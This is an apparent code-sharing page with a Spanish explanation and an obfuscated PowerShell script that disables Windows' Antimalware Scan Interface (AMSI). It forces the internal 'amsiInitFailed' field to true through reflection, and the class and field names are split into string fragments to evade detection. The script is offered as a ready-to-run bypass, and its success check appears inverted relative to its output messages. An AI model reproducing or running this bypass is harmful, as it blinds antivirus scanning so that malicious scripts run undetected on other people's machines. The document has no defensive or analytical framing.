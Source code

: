El script de PowerShell intenta deshabilitar el Servicio Interfaz de examen antimalware (AMSI) de Microsoft, una característica de seguridad de Windows que permite a las aplicaciones antivirus escanear scripts de PowerShell en busca de comportamientos maliciosos.

Primero, la función **`Is-AMSIDisabled`** verifica si AMSI está deshabilitado, utilizando **`Get-variable`** para obtener una variable específica y comprobando si el campo 'amsi' es verdadero.

Luego, el bloque **`try`** intenta deshabilitar AMSI estableciendo el campo 'amsi' en verdadero. Si tiene éxito, imprime "AMSI Successfully Disabled". Si AMSI ya está deshabilitado, imprime "AMSI". Si hay un error, captura la excepción con catch e imprime "Error Disabling AMSI: $_", donde $_ es la excepción capturada.



```
# Author: Taurus Omar
# Verify if AMSI is disabled
function Is-AMSIDisabled {
    return ((Get-variable (('1Q'+'2U') +'zX'))."A`ss`Embly"."GET`TY`Pe"(('Uti'+'l','A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em'))).g`etf`iElD"(('a'+'msi'),'d',('I'+'nitF'+'aile'))).GetValue($null) -eq $true
}

# AMSI Bypass
try {
    Set-Item ('Va'+'rI'+'a'+'blE:1'+'q2'+'uZx') ([TYpE]("F"+'rE')) 
    (Get-variable (('1Q'+'2U') +'zX'))."A`ss`Embly"."GET`TY`Pe"(('Uti'+'l','A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em'))).g`etf`iElD"(('a'+'msi'),'d',('I'+'nitF'+'aile'))).(sE`T`VaLUE)(${n`ULl},${t`RuE})

    if (Is-AMSIDisabled) {
        Write-Output "AMSI"
    } else {
        Write-Output "AMSI Successfully Disabled"
    }
} catch {
    Write-Output "Error Disabling AMSI: $_"
}

```
